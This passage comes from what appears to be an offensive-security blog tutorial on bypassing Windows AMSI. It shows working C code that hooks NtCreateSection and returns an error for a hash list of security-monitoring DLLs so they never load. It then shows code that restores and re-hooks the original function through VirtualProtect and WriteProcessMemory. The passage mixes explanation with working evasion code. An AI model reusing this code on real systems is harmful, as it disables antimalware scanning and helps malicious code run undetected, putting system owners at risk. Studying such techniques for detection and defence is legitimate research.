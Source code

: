 ```c
				{
					return -1;
				}
			}
		}
	}
	restore_hook_ntcreatesection(SectionHandle, DesiredAccess, ObjectAttributes, MaximumSize, PageAttributess, SectionAttributes, FileHandle); //If it's not an AMSI DLL restore the original NtCreateSection
	return 1;
}

```

1. At the beggining of the code we see an array containing a list of hashes of DLLs that are usually used to monitor malicious activity.
2. Later we see the hooked NtCreateSection function, that will check which is the path belonging to the File Handle parameter (**GetFinalPathNameByHandleA**).
3. In case the file hash is one of the hashes existing in the hash array, the hooked function will return -1 (in the NTSTATUS world we see that as an error, because an NTSTATUS success value is 0)
4. In case the file hash is not in the array, then we will jump to the real NtCreateSection, and we will allow the process to map DLLs.

Following we can see how whe NtCreateSection returns an error, the loader will return without loading the DLL.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/2022_07_17_amsi/jump_if_error.png)

In this case we may be careful, because if we return 0x0C000047E then, the function **_LdrAppxHandleIntegrityFailure** would be called, and this function would terminate our process (in no way my mind could think about using that value as return, but disclaimer is important...) 

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/2022_07_17_amsi/terminate_process.png)

For those cases when the hook function is not returning an AMSI dll, we must restore the previous NtCreateSection, which is done via the following snippet.

```c
BOOL restore_hook_ntcreatesection(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL)
{
	HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, NULL, GetCurrentProcessId()); //Open current process
	myNtCreateSection NtCreate;
	NtCreate = (myNtCreateSection)GetProcAddress(GetModuleHandle(L"NTDLL.dll"), "NtCreateSection"); //Get address of the hooked NtCreateSection
	DWORD written2, written3;


	VirtualProtect(NtCreate, sizeof NtCreate, PAGE_EXECUTE_READWRITE, &written2); //Protect it 
	VirtualProtect(tramp_old_ntcreatesection, sizeof tramp_old_ntcreatesection, PAGE_EXECUTE_READWRITE, &written3);

	if (!WriteProcessMemory(hProc, NtCreate, &tramp_old_ntcreatesection, sizeof tramp_old_ntcreatesection, NULL)) //Write the real NtCreateSection in the address of the hook
	{
		return FALSE;
	}
	NtCreate(SectionHandle, DesiredAccess, ObjectAttributes, MaximumSize, PageAttributess, SectionAttributes, FileHandle); //Call the real NtCreateSection
	hook_ntcreatesection(hProc); //hook it again
	return 1;

}
```